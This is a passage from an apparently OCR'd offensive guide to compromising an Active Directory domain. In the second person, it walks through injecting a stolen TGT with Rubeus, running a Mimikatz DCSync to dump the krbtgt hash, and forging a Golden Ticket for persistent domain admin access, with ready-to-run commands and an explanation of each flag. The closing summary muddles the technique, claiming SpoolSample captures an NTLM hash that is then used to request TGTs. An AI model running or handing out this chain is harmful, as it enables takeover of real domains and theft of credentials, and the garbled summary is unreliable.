 - **Inject the TGT ticket** into your session using the Pass-the-Ticket technique:

   ```powershell
   Rubeus.exe ptt /ticket:<base64_TGT_ticket>
   ```

   **Result**: You now impersonate the user whose TGT you captured and injected. If it’s a domain admin or a machine account, you can proceed to use that ticket for further privilege escalation.

#### 4. **Perform a DCSync Attack with Mimikatz**
Now that you have impersonated a privileged user (e.g., domain admin), you can perform a **DCSync** attack to extract password hashes from the Domain Controller.

- **Run Mimikatz** and perform the **DCSync** attack:

   ```powershell
   mimikatz # privilege::debug
   mimikatz # lsadump::dcsync /user:krbtgt /domain:<domain> /dc:<dc_ip>
   ```

   - `/user:krbtgt`: Dump the credentials for the **krbtgt** account, which is used to generate and validate Kerberos tickets.
   - `/domain:<domain>`: The domain name of the target Active Directory.
   - `/dc:<dc_ip>`: The IP address of the Domain Controller.

   **Result**: You will retrieve the **NTLM** and **Kerberos hash** for the `krbtgt` account. This is essential for creating a **Golden Ticket**.

#### 5. **Generate a Golden Ticket with Mimikatz**
With the **krbtgt hash** from the DCSync attack, you can now generate a **Golden Ticket**. This will allow you to impersonate any user within the domain indefinitely.

- Use **Mimikatz** to create the Golden Ticket:

   ```powershell
   mimikatz # kerberos::golden /user:<username> /domain:<domain> /sid:<domain_sid> /krbtgt:<krbtgt_hash> /id:500 /ptt
   ```

   - `/user:<username>`: Specify the username you want to impersonate (can be any user, such as **Administrator**).
   - `/domain:<domain>`: The target domain.
   - `/sid:<domain_sid>`: The Security Identifier (SID) of the domain (retrieved via DCSync or using the `whoami /all` command).
   - `/krbtgt:<krbtgt_hash>`: The NTLM hash of the **krbtgt** account obtained from the DCSync attack.
   - `/id:500`: The **RID** for the user account you want to impersonate (500 is the RID for the domain’s **Administrator** account).
   - `/ptt`: Automatically injects the Golden Ticket into the current session.

   **Result**: You now have a **Golden Ticket** that allows you to impersonate any user within the domain, effectively giving you **persistent domain admin access**.

---

### Full Attack Chain Summary:

1. **SpoolSample** triggers authentication from a privileged account (like a domain admin or DC) and captures the NTLM hash.
2. Use the NTLM hash to request and monitor **Kerberos TGT** using **Rubeus**.
3. Extract the captured TGT, and inject it using **Rubeus** (Pass-the-Ticket).
4. Perform a **DCSync** attack using **Mimikatz** to dump the **krbtgt** hash.
5. Use the **krbtgt hash** to generate a **Golden Ticket** with **Mimikatz**, giving you indefinite domain admin privileges.
